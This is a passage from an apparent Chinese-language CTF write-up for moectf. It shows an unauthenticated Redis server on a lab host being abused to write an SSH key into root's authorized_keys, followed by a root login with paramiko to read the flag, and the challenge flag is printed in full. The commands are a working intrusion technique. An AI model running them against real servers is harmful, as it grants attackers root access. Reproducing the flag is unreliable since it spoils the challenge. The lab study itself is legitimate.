>>> cursor.fetchall()
(('flag'))
>>> cursor.execute("select(group_concat(flag))from(flag)")
1
>>> cursor.fetchall()
(('-Are-YOu-myS0L-MasT3r?-'))最后是redis。用python装个redis模块（不知道为啥apt-get install装不了？）：
subprocess.check_output("pip3 install redis",stderr=subprocess.STDOUT,shell=True)然后连接
r = redis.Redis(host='172.20.0.3', port=6379, db=0)
r.info()从info中得知redis存在未授权访问漏洞。根据 https://_thorns.gitbooks.io/sec/content/redis_getshellzi_dong_hua_shi_jian_zhi_ssh_key.html 往root写ssh key。public_key和privkey利用ssh-keygen -t rsa生成
>>> r.set('aaaaaaaaaa', '\n\n' + public_key + '\n\n')
True
>>> r.config_set('dir', '/root/.ssh')
True
>>> r.config_set('dbfilename', 'authorized_keys')
True
>>> r.save()
True参考 https://www.cnblogs.com/wongbingming/articles/12384764.html ，安装paramiko进行ssh连接
subprocess.check_output("pip3 install paramiko",stderr=subprocess.STDOUT,shell=True)
import paramiko
>>> pkey = paramiko.RSAKey.from_private_key_file('privkey', password='')
>>> trans = paramiko.Transport(('172.20.0.3', 22))
>>> trans.connect(username='root', pkey=pkey)
>>> ssh = paramiko.SSHClient()
>>> ssh._transport = trans
>>> stdin, stdout, stderr = ssh.exec_command('ls /')
>>> print(stdout.read().decode())
>>> stdin, stdout, stderr = ssh.exec_command('cat /flag')
>>> print(stdout.read().decode())Flag
moectf{Information-leakage-Is-dangerous!-Are-YOu-myS0L-MasT3r?-P@sSW0Rd-F0r-redis-Is-NeceSsary}